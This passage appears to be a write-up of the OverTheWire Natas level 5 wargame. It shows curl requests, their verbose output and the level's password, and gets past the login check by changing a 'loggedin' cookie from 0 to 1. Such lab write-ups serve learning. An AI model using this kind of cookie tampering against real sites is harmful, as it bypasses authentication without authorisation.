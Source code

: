 nothing new here, diffing it with level 0 turned up nothing new either... time to check the request and response by using curl with -v (short for --verbose).


```
❯ curl http://natas5.natas.labs.overthewire.org/ -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq -v              
*   Trying 176.9.9.172...
* TCP_NODELAY set
* Connected to natas5.natas.labs.overthewire.org (176.9.9.172) port 80 (#0)
* Server auth using Basic with user 'natas5'
> GET / HTTP/1.1
> Host: natas5.natas.labs.overthewire.org
> Authorization: Basic bmF0YXM1OmlYNklPZm1wTjdBWU9RR1B3dG4zZlhwYmFKVkpjSGZx
> User-Agent: curl/7.58.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Sat, 03 Nov 2018 11:42:44 GMT
< Server: Apache/2.4.10 (Debian)
< Set-Cookie: loggedin=0
< Vary: Accept-Encoding
< Content-Length: 855
< Content-Type: text/html; charset=UTF-8
< 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas5", "pass": "iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq" };</script></head>
<body>
<h1>natas5</h1>
<div id="content">
Access disallowed. You are not logged in</div>
</body>
</html>
* Connection #0 to host natas5.natas.labs.overthewire.org left intact
```
we can see that there is a cookie set called loggedin=0, lets change that.

```
❯ curl http://natas5.natas.labs.overthewire.org/ -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq -v -b "loggedin=1"
*   Trying 176.9.9.172...
* TCP_NODELAY set
* Connected to natas5.natas.labs.overthewire.org (176.9.9.172) port 80 (#0)
* Server auth using Basic with user 'natas5'
> GET / HTTP/1.1
> Host: natas5.natas.labs.overthewire.org
> Authorization: Basic bmF0YXM1OmlYNklPZm1wTjdBWU9RR1B3dG4zZlhwYmFKVkpjSGZx
> User-Agent: curl/7.58.0
> Accept: */*
> Cookie: loggedin=1
> 
< HTTP/1.1 200 OK
< Date: Sat, 03 Nov 2018 11:44:42 GMT
< Server: Apache/2.4.10 (Debian)
< Set-Cookie: loggedin=1
```